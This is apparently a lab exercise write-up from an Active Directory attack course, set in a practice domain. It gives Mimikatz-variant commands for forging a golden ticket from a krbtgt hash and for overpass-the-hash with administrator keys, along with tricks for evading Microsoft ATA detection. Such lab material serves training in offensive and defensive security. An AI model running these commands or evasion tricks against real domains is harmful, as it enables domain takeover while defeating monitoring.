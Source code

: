 # Hands-on 29: Bypassing ATA

- [Hands-on 29: Bypassing ATA](#hands-on-29-bypassing-ata)
  - [Tasks](#tasks)
  - [Create a golden ticket with NTLM hash of krbtgt without detection by ATA](#create-a-golden-ticket-with-ntlm-hash-of-krbtgt-without-detection-by-ata)
  - [Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA](#use-aes-keys-of-administrator-to-run-a-powershell-session-using-overpth-without-detection-in-ata)

---

## Tasks

- Create a golden ticket with NTLM hash of krbtgt without detection by ATA. 
- Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA.

<br/>

---

## Create a golden ticket with NTLM hash of krbtgt without detection by ATA

Note ATA (1.9) does not detect Golden tickets created with a non-existent username.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:atabypass /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /krbtgt:b0975ae49f441adc6b024ad238935af5 /ptt" "exit"
```

![picture 19](images/0155981d43848a7373d8281ecb325562c7487ba45b887f4bda54065e67b8ff96.png)  

<br/>

Try to access `us-dc`:

```
dir \\us-dc.us.techcorp.local\c$
```

![picture 20](images/c366dd0fbf7864ae0569085f47eaae4d90d3ecff8944c1a47b0f42c171639139.png)  

<br/>

---

## Use AES keys of administrator to run a PowerShell session using OverPTH without detection in ATA

When doing Over-PTH, when providing all `NTLM`, `AES128` and `AES256`, it avoids detection by ATA.

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /ntlm:43b70d2d979805f419e02882997f8f3f /aes128:c9ae4aae409161db4cbb534f58457944 /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /run:cmd.exe" "exit"
```

![picture 21](images/268291f5f217f7073a96860c5743b08168cf8c9ad237356bdd2887b55bd7626b.png)  

<br/>

---